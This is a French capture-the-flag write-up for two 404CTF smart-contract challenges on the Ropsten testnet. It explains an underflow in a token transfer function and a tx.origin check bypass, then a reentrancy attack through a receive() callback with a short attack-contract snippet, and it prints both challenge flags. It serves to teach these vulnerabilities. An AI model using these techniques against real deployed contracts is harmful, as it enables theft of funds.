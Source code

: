 # Web3 / La guerre des contrats
Points: 1000 / 1000
Difficulté: Facile / Difficile 

# Partie 1
Agent, nous avons découvert un smart contract de Hallebarde qui permet d'obtenir de l'argent gratuitement. Il sert également à s'authentifier en tant que nouveau membre de Hallebarde. Nous voulons que vous vous fassiez passer pour un de leurs membres. Nous avons récemment trouvé un endpoint qui semble leur servir de portail de connexion. Introduisez-vous dans leur système et récupérez toutes les informations sensibles que vous pourrez trouver.

Contrat à l'adresse : 0xb8c77090221FDF55e68EA1CB5588D812fB9f77D6
Réseau de test Ropsten
Auteur : Soremo

## Observation 
Le contrat n'utilise pas de bibliothèque SafeMath et n'effectue pas de vérification supplémentaire lors d'un transfer de fonds.
```js
function transfer(address receiver, uint256 numTokens) public returns (bool) {
    require(balances[msg.sender] > 0);
    balances[msg.sender] -= numTokens;
    balances[receiver] += numTokens;
    return true;
}    

## Exploitation
```
Il est donc possible dès qu'on a des fonds d'en envoyer autant que l'on souhaite à un autre compte.
On remarque aussi une subtilité sur la fonction `enterHallebarde()`:
```js
function enterHallebarde() public {
    require(balances[msg.sender] > 100 ether || boss == msg.sender, "Vous n'avez pas assez d'argent pour devenir membre de Hallebarde.");
    require(msg.sender != tx.origin || boss == msg.sender, "Soyez plus entreprenant !");
    require(!isHallebardeMember[msg.sender]);
    isHallebardeMember[msg.sender] = true;
}
```
On doit trouver un moyen d'avoir un tx.origin différent de notre msg.sender, c'est simple à faire, il faut passer par un contrat qui appeler la fonction `enterHallebarde()` tout en ayant assez de fonds d'abord.

On obtient ensuite le flag depuis le serveur `404CTF{5M4r7_C0N7r4C7_1NC3P710N_37_UND3rF10W_QU01_D3_P1U5_F4C113}`.

# Partie 2
Agent, maintenant que vous avez des compétences un peu plus approfondies en web3, nous aimerions faire appel à vos compétences dans une situation plus délicate. Nous avons décelé des traces d'activités suspectes à l'adresse 0xD5c0873f147cECF336fEEF1a28474716C745Df86. Hallebarde essaye apparemment de créer sa propre cryptomonnaie. De plus, il semble que les plus anciens membres de Hallebarde puissent récupérer une sorte de pass VIP. Utilisez ce pass pour obtenir des informations seulement connues par l'élite de Hallebarde.

Contrat à l'adresse : 0xD5c0873f147cECF336fEEF1a28474716C745Df86
Réseau de test Ropsten
Auteur : Soremo

`nc challenge.404ctf.fr 30885`

## Analyse du token
On repère la fonction qui nous intéresse, c'est la fonction senior qui vérifie à première vue l'âge de notre compte pour déterminer si l'on est VIP ou pas.
J'ai d'abord tenter de lire directement la valeur de vipPass depuis la blockchain (ce qui est possible) mais il est nécessaire de prouver que notre adresse remplit les conditions pour valider l'épreuve. On doit donc réussir à avoir un compte assez vieux !
```js
function senior() external view returns (uint256) {
    require(seniority[msg.sender] >= 10 * 365 days, "Revenez dans quelque temps.");
    require(seniority[msg.sender] < 150 * 365 days, "Vous vous faites vieux, laissez-nous la place.");
    return vipPass;
}
```
On remarque que la vente de HLB augmente de 365 jours l'âge de notre compte. Cette opération est effectuée avant de mettre à jour la condition bloquante de cette fonction `require(block.timestamp >= lastWithdrawTime[msg.sender] + 365 days)`, ce qui veut dire que l'on peut utiliser une attaque de réentrée en utilisant la fonction `receive()` d'un contrat et en appelant à nouveau la fonction de vente depuis ce dernier.
```js
function sellHLB(uint256 numTokens) public {
    require(balances[msg.sender] >= numTokens);
    require(block.timestamp >= lastWithdrawTime[msg.sender] + 365 days, "Vous devez attendre un an entre chaque retrait.");

    transfer(address(this), numTokens);
    seniority[msg.sender] = seniority[msg.sender].add(365 days);
    (bool sent, ) = msg.sender.call{value: numTokens}("");
    require(sent, "Erreur lors de l'envoi de l'ethereum.");
    lastWithdrawTime[msg.sender] = block.timestamp;
}
```

## Implémentation de l'attaque
En décléchant la vente de HLB (préalablement acheté en assez grande quantité), le contrat du token va verser les fonds à notre contrat déclenchant un nouveau call à `sellHLB(1)` jusqu'à ce que notre compte accumule assez de vente pour être considéré VIP.

```js
function trigger() onlyOwner public {
    _contract.sellHLB(1);
}

receive() external payable {
    if(count <= 10){
        count += 1;
        _contract.sellHLB(1);
    }
}
```

Retour sur le serveur pour valider notre addresse et code VIP et on obtient le flag `404CTF{135_5M4r7_C0N7r4C75_54V3N7_4U551_J0U3r_4U_P1N6_P0N6}`.